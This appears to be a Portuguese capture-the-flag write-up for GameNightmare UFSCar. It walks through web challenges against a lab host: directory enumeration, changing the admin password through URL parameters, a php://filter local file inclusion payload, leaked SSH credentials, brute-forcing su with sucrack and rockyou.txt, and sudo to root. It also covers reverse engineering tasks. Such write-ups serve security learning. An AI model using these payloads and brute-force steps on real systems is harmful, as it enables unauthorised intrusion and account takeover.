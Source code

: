 # GameNightmare UFSCar



## Web

### Recon (50)
```
O primeiro passo de um pentest é sempre enumerar o alvo. Quando falamos de um pentest web também procuramos arquivos esquecidos pelo administrador

http://64.137.228.30
```
Pegando o IP dado, podemos usar por exemplo a ferramenta `dirsearch` para obter os subdiretórios nele e arquivos php "perdidos":
```
sudo dirsearch http://64.137.228.30 -e .php
```
Encontramos o diretório `/_temp/`, que possui um arquivo y0ur_fl4g.txt que é contém a flag do desafio. <br>
flag: `POMBO{R3m3mb4_t0_3numerate}`

No outro arquivo nessa mesma pasta encontramos uma pista para o próximo chall.
```
Atenção pessoal do Q.A.
Façam seus testes com o usuário:

user: aluno
pass: aluno


Att, Gleise.
```
### fuck the admin (130)
```
Ok, you got credentials, but show me that you can CHANGE THE ADMIN PASSWORD and login :)

same address bitch.
```
Tentando trocar a senha do usuário aluno, que obtivemos no desafio Recon, recebemos a mensagem:
```
Do you cannot change 'aluno' password, it's a test account!
```
Percebemos que, ao trocar a senha, caímos no endereço [http://64.137.228.30/change_password.php?user=aluno&pass=aluno](http://64.137.228.30/change_password.php?user=aluno&pass=aluno). O que é uma dica forte que temos que mudar o parâmetro user e o pass de algum modo. <br>
Tentando substituir o user por admin e a senha por uma senha qualquer, chegamos ao link:
```
http://64.137.228.30/change_password.php?user=admin&pass=senha123
```
E recebemos a mensagem:
```
password updated with success!
```
Logando na conta admin com a senha que estabelecemos, temos a resposta do desafio: <br>
flag: `POMBO{My_Nam3_is_Gleise}`

Além disso, no link da página, temos `http://64.137.228.30/logged_in/admin.php?file=349ab674ce607874f5445576471825a3.php`. Repare que o file= é um forte indício de Local File Inclusion (LFI), que usaremos no próximo chall.

### Read the code (200)
```
show me that you know what to to with this vuln, noob
```
Utilizando um php filter para o LFI, podemos encontrar os códigos php nas páginas, por exemplo <br>
`
http://64.137.228.30/logged_in/admin.php?file=php://filter/convert.base64-encode/resource=/var/www/html/logged_in/index.php
`
<br>
Que retorna o código em "index.php" "criptografado" com base 64.
<br>
Então, pesquisando em diversas páginas do site, encontramos `data.php`, que possui o seguinte código.
```
<?php
  session_start();
  require '../database_control/init.php';
  popOut();

	/*

		POMBO{Im_Reading_Your_Code}

		não esquecer de atualizar os dados no sistema!

		user: gleise@64.137.229.36
		password: minhasenhaesegura


	*/
?>
<!DOCTYPE html>
.
.
.
```
De onde obtemos a dica para o próximo chall e a flag. <br>
flag: `POMBO{Im_Reading_Your_Code}`

### Pivoting (300)
```
can you get the flag in the ssh of admin account?
```
Vemos, ao logar na ssh, o arquivo `rockyou.txt`, que é uma wordlist famosa, que vem junto a algumas distros de segurança. <br>
Isso é um forte indício que esse desafio é um bruteforce no usuário admin. <br>
Usando então a ferramenta "sucrack", que podemos baixar direto do terminal:
```
wget https://labs.portcullis.co.uk/download/sucrack-1.2.3.tar.gz
```
Depois de instalar com os seguintes comandos:
```
tar xfz sucrack-1.2.3.tar.gz
cd sucrack-1.2.3
./configure
make
cd src
```
Executamos com a wordlist, rodando em 100 workers na cpu
```
./sucrack -w 100 -u admin ../../rockyou.txt
```
Obtendo o password para a conta admin. <br>
Ao logar nela temos o arquivo flag.txt.  <br>
flag: `POMBO{L00k_ar0und_n0t_ab0ve}`
### Priv Escalation (600)
```
get the root account, and be happy
```
Testando, após logar na conta admin, podemos ver que ela é um sudoer. <br>
Então, simplesmente usando
```
sudo su root
```
e digitando o password obtido na etapa anterior, logamos na conta root.
Onde temos o arquivo `flag.txt` <br>
flag: `POMBO{H0wD4r3You}`


## Reverse Engineering

### EXErcite your skills (50)
É dado um arquivo .exe e dito que os usuários não usam linux.<br>
Caso usemos o comando `file Malware.exe`, percebemos que é um MS-DOS, .NET <br>.
Então, tentamos usar um decompilador para extrair o código, como o `dnSpy`, por exemplo. <br>
Porém, ao abrirmos o arquivo decompilado, vemos que está cheio de códigos estranhos e nomes de funções incomuns. <br>
Desconfiamos que o .exe foi obfuscado. Portanto, o desobfuscaremos, usando o `de4dot`. <br>
Rodando ele, geramos o arquivo `Malware.clean.exe`. <br>
Abrindo ele, na main encontramos a flag em texto.
<newline>
![Rev50](Rev50Win.png)
<newline>
flag: `HZVI{M4lw4re_C4n_b3_h0st3d_1n_y0ur_reg1str1es}`


### not_my_name (50)
Caso usemos o radare ou o IDAPro para visualizar o grafo de fluxo do arquivo dado, percebemos várias funções com os nomes da música <br>
Abra o arquivo usando o gdb por exemplo

```
run
```
Então,  coloque um breakpoint em algum lugar que será executado, por exemplo na função main
```
b * main
```
E então, através do que percebemos pelo grafo, usamos
```
j jeff
```
E recebemos um [link](https://vimeo.com/271687045) de um vídeo. <br>
Na descrição do chall é dito que "quando acharmos que resolveu, a senha é o nome do chall", então usamos `not_my_name` para abrir o vídeo. <br>
A flag encontra-se na descrição. <br>
flag: `SCMPv9{my_n4m3_1s_jeff}`

### Dead Presidents (150)
Existem diversos modos de resolver esse challenge:

#### Binary manipulation
Ao abrir um decompiler, como por exemplo o IDA, percebemos que a flag gerada depende exclusivamente do nome do presidente. <br>
Caso usemos o comando `strings` no arquivo, percebemos o nome "Bill Clinton", mencionado no enunciado. <br>
Ao tentar usar o nome Bill Clinton, recebemos uma mensagem de "nome já utilizado". <br>
Então, ao abrir o binário dado, com um editor de texto qualquer, como por exemplo o vim, procuramos por "Bill" e editamos para um nome qualquer. <br>
Tentamos novamente, usamos o presidente `Bill Clinton` como nome e obtemos a resposta. <br>
flag: `INSA{8c0165004d4ab5d6}`

#### Reverse Hashing
- TODO
